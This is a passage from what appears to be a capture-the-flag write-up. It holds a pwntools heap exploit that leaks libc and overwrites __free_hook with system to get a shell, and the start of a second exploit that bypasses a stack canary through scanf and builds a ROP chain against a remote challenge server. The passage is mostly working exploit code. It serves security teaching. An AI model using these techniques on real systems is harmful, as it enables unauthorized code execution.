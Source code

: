 ```python  
	ret = sh.recvuntil('\n')  
	sh.recvuntil("> ")  
	return ret[:-1]

for i in xrange(7):  
	add(0x200, 'name', 'fill tcache')  
add(0x200, 'ab') #7  
for i in xrange(7):  
	delete(i)

add(0x58, 'c', 'A' * 0x50 + p64(0x1f0)) #0  
add(0x100, 'pad') #1  
delete(7)

add(0x78, "offbyone", 'a' * 0x78 + '\xf1') #2  
#0x191 -> 0x1f1  
add(0x180, "leak") #3  
libc_addr = u64(show(0) + '\x00\x00') - 0x3ebca0  
print hex(libc_addr)  
#0x7fe5e1b31ca0 on server, so 2.27

add(0x50, '22', "/bin/sh") #4

delete(4)  
delete(0)

add(0x50, 'consume', p64(libc_addr + 0x3ed8e8))#e.symbols["__free_hook"]))  
add(0x50, 'consume')  
add(0x50, '/bin/sh\x00', p64(libc_addr + 0x4f440))#e.symbols["system"])) #5

sh.sendline("3")  
sh.recvuntil("Index: ")  
sh.sendline(str(5))

sh.interactive()  
```

##  104 Pwn / Precise average

The stack overflow is obvious, but we need to find ways to bypass canary
protection. The key is to send `"-"` as the floating point number, which is
invalid and `scanf` will return negative, but it will not rewrite the pointer
passed as argument and leave it as it is. By using this technique canary will
not be rewritten.

```python  
from pwn import *  
from struct import unpack as up  
g_local=0  
p = ELF("./precise_avg.elf")  
context(log_level='debug', arch='amd64')  
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")  
if g_local:  
	sh = process("./precise_avg.elf")  
	gdb.attach(sh)  
else:  
	sh = remote("82.196.10.106", 12499)

pop_rdi = p64(0x4009c3)  
main = p64(0x4007D0)

def exploit(rop):  
	sh.recvuntil("Number of values: ")
```